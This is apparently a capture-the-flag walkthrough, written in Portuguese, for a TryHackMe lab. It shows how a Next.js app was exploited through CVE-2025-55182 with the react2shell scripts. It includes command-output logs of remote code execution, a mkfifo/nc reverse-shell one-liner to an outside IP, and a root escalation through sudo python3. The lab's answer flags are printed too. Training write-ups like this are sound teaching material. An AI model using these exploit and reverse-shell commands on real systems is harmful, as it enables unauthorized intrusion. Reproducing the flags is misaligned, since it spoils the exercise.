







# TryHackMe — Corp Website
## Level 8 — Romance & Co. | CVE-2025-55182 Next.js RCE

**Categoria:** Web / CVE / React Server Components RCE / Privilege Escalation via sudo  
**Dificuldade:** Difícil

---

### 💌 Concierge Briefing

> My Dearest Hacker,
> Valentine's Day is fast approaching, and "Romance & Co" are gearing up for their busiest season. Behind the scenes, however, things are going wrong. Security alerts suggest that "Romance & Co" has already been compromised. Logs are incomplete, developers defensive and Shareholders want answers now!
> As a security analyst, your mission is to retrace the attacker's steps, uncover how the attackers exploited the vulnerabilities found on the "Romance & Co" web application and determine exactly how the breach occurred.
>
> You can find the web application here: `http://10.65.131.31:3000`

---

## 🎯 Objetivo

O briefing situa o desafio no contexto de análise de uma violação já ocorrida: a aplicação **Romance & Co.** foi comprometida e é preciso retraçar o caminho do atacante. O objetivo é identificar o framework da aplicação, detectar a vulnerabilidade crítica explorada, reproduzir o ataque para obter execução remota de código, capturar as flags de usuário e root e documentar o vetor de escalação de privilégios utilizado.

---

## 🔍 Passo 1 — Homepage: Romance & Co. em Next.js

Acessando `http://10.65.131.31:3000`:



A aplicação se apresenta como uma plataforma de experiências românticas para casais. O design moderno com animações e o comportamento da URL sugeriram imediatamente uma **aplicação Next.js** — hipótese a ser confirmada na análise de headers.

---

## 🔍 Passo 2 — Fingerprinting: Confirmando Next.js pelos Headers

Inspecionando os headers HTTP da aplicação:

```bash
curl -I http://10.65.131.31:3000
```



Os headers entregaram o framework:

```
X-Nextjs-Cache: HIT
X-nextjs-prerender: 1
X-nextjs-stale-time: 300
X-Powered-By: Next.js
Cache-Control: s-maxage=31536000
```

A enumeração dos chunks estáticos confirmou React Server Components (RSC) ativos:

```bash
curl -s http://10.65.131.31:3000/ | grep -oE '/_next/static/[^"]+\.js' | sort -u
```

```
/_next/static/chunks/42879de7b8087bc9.js
/_next/static/chunks/a4403f826d0efc9f.js
/_next/static/chunks/turbopack-4dfba6ec099a9d31.js
...
```

A presença de **Turbopack** e dos chunks RSC indicou uma versão recente do Next.js com **React Server Components habilitados** — superfície de ataque do CVE-2025-55182.

---

## 🔍 Passo 3 — CVE-2025-55182: Detecção e Confirmação de RCE

O framework **react2shell** foi clonado e utilizado para detectar e explorar a vulnerabilidade:

```bash
git clone https://github.com/freeqaz/react2shell.git
cd react2shell
./detect.sh http://10.65.131.31:3000
```



```
[+] React2Shell Detection Probe (CVE-2025-55182 / CVE-2025-66478)
[+] Target: http://10.65.131.31:3000

[+] HTTP Status: 500
[!] VULNERABLE - Server returned 500 with E{"digest" pattern

[+] Response body:
0:{"a":"$@1","f":"","b":"3WpZTMYEK9QGOeqIBQxrR"}
1:E{"digest":"1917316682"}

[!] This server is running a vulnerable version of React RSC / Next.js
[!] Upgrade to Next.js 16.0.7+ or React 19.2.1+ immediately
```

O padrão `E{"digest":"..."}` na resposta com status 500 é a assinatura do **CVE-2025-55182** — uma falha crítica de **Remote Code Execution não autenticado** na implementação de React Server Components do Next.js. O exploit abusa de como o servidor processa o flight data RSC para injetar e executar código arbitrário server-side.

A RCE foi confirmada imediatamente:

```bash
./exploit-redirect.sh http://10.65.131.31:3000 "id"
```

```
[+] React2Shell Exploit - redirect exfil mode
[+] HTTP 303 - Redirect exfil successful
[+] Command output:
uid=100(daniel) gid=101(secgroup) groups=101(secgroup),101(secgroup)
```

Execução remota de código confirmada como **`daniel`** (uid=100).

---

## 🔍 Passo 4 — Shell Interativa: Navegando como Daniel

O react2shell incluía um módulo de shell interativa:

```bash
./shell.sh http://10.65.131.31:3000
```



```
CVE-2025-55182 Interactive Shell
React Server Components RCE

[*] Connecting to http://10.65.131.31:3000...

Connected!
  User: daniel
  Host: romance
  CWD:  /app

daniel@romance:/app$ cd /home
daniel@romance:/home$ ls
daniel
node
daniel@romance:/home$ cd daniel
daniel@romance:/home/daniel$ ls
user.txt
daniel@romance:/home/daniel$ whoami
daniel
```

---

## 🚩 Passo 5 — Flag de Usuário

```bash
daniel@romance:/home/daniel$ cat user.txt
```



```
THM{R34c7_2_5h311_3xpl017}
```

**Flag de usuário: `THM{R34c7_2_5h311_3xpl017}`**

Para escalação de privilégios com maior controle, uma reverse shell completa foi estabelecida via mkfifo:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.129.38 4444 >/tmp/f
```

---

## 🔍 Passo 6 — Reverse Shell e Enumeração de Sudo

A conexão foi recebida no listener:

```bash
nc -lnvp 4444
```



```
connect to [192.168.129.38] from (UNKNOWN) [10.65.131.31] 59568

/app $ whoami
daniel

/app $ sudo -l
Matching Defaults entries for daniel on romance:
    secure_path=/usr/local/sbin:...

User daniel may run the following commands on romance:
    (root) NOPASSWD: /usr/bin/python3
```

O usuário `daniel` podia executar **`python3` como root sem senha** — um vetor clássico de escalação de privilégios via GTFOBins.

---

## 🚩 Passo 7 — Escalação de Privilégios: sudo python3 → Root Flag

A execução de `os.execl` falhou por limitações do ambiente containerizado, mas `os.system()` funcionou perfeitamente:

```bash
sudo /usr/bin/python3 -c 'import os; os.system("id")'
```

```
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),...
```

Root confirmado. A flag foi lida diretamente:

```bash
sudo /usr/bin/python3 -c 'import os; os.system("cat /root/root.txt")'
```



```
THM{Pr1v_35c_47_175_f1n357}
```

**Flag de root: `THM{Pr1v_35c_47_175_f1n357}`**

---

## 🚩 Flags

| Flag | Valor |
|------|-------|
| **User Flag** | `THM{R34c7_2_5h311_3xpl017}` |
| **Root Flag** | `THM{Pr1v_35c_47_175_f1n357}` |

---

## 📝 Resumo da cadeia de investigação

1. **Homepage** → Next.js com React Server Components identificado pelo design e comportamento
2. **`curl -I`** → header `X-Powered-By: Next.js` + chunks Turbopack confirmam framework e RSC ativos
3. **`react2shell/detect.sh`** → resposta 500 com padrão `E{"digest"}` confirma **CVE-2025-55182** (Next.js RSC RCE não autenticado)
4. **`exploit-redirect.sh "id"`** → RCE confirmada: `uid=100(daniel)`
5. **`shell.sh`** → shell interativa como `daniel` no host `romance`, CWD `/app`
6. **`cat /home/daniel/user.txt`** → `THM{R34c7_2_5h311_3xpl017}`
7. **mkfifo reverse shell** → conexão nc para shell com controle de job
8. **`sudo -l`** → `(root) NOPASSWD: /usr/bin/python3`
9. **`sudo python3 -c 'os.system("cat /root/root.txt")'`** → `THM{Pr1v_35c_47_175_f1n357}`

---